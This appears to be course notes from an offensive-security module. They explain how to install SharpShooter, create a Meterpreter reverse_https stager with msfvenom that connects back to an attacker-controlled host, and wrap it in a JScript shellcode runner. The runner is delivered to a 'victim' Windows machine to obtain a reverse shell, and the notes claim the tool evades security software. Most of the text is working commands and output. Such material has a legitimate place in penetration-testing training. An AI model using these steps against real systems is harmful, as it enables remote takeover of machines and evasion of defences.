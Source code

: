 # SharpShooter and JScript Shellcode Runner

SharpShooter is “a payload creation framework for the retrieval and execution of arbitrary C# source code” and automates part of the process discussed in this module.

SharpShooter is capable of evading various types of security software.

## Installation

```bash

cd /opt/

sudo git clone https://github.com/mdsecactivebreach/SharpShooter.git

cd SharpShooter/

sudo pip install -r requirements.txt

# If confronted with a message saying that pip cannot be found, install the package with :

sudo apt install python-pip 

```

## Usage 

Create a shellcode runner with Jscript by leveraging DotNetToJscript.

1. First, we'll use msfvenom to gnerate our Meterpreter reverse stager and write the raw output format to a file.

```bash

kali@kali:/opt/SharpShooter$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.x.x LPORT=443 -f raw -o /var/www/html/shell.txt
...
Payload size: 716 bytes
Saved as: /var/www/html/shell.txt
```

2. Run SharpShooter to generate our JScript shellcode runner.

```bash

kali@kali:/opt/SharpShooter$ sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test
...
[*] Written delivery payload to output/test.js

```

3. Once again we must configure a multi/handler matching the generated Meterpreter shellcode. When that is done, we need to copy the generated test.js file to our Windows 10 victim machine.

When we double-click it, we obtain a reverse shell

